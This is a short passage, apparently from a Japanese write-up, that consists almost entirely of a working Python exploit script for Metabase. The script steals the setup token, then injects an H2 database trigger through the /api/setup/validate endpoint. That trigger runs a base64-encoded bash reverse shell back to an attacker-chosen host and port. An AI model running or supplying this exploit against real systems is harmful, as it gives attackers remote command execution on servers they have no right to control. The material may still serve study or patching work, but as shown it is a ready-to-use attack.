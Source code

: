 これを実行するPythonコードは次のようになる。

```python
import requests
import json
import base64
import argparse

parser = argparse.ArgumentParser(description="Metabase Exploit")
parser.add_argument("-u", "--url", type=str, required=True, help="Target URL")
parser.add_argument("--lhost", type=str, required=True, help="Local host's ip address")
parser.add_argument("--lport", type=str, required=True, help="Local port for reverse shell")

args = parser.parse_args()
target_host = args.url
lhost = args.lhost
lport = args.lport

url = "%s/api/session/properties" % target_host

res = requests.get(url)

data = res.json()
setup_token = data.get("setup-token")
print(setup_token)

exploit = "/bin/bash -i >& /dev/tcp/%s/%s 0>&1" % (lhost, lport)
exploit_base64 = base64.b64encode(exploit.encode()).decode()

payload = {
        "token": setup_token,
        "details":
        {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules":
            {},
            "details":
            {
                "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER IAMPWNED BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,%s}|{base64,-d}|{bash,-i}')\n$$--=x" % exploit_base64,
                "advanced-options": False,
                "ssl": True
            },
            "name": "test",
            "engine": "h2"
        }
    }

headers = { "Content-Type": "application/json" }
url = "%s/api/setup/validate" % target_host

res = requests.post(url, headers=headers, data=json.dumps(payload))

print(exploit)
print(exploit_base64)
print(payload)
print(res.status_code)
```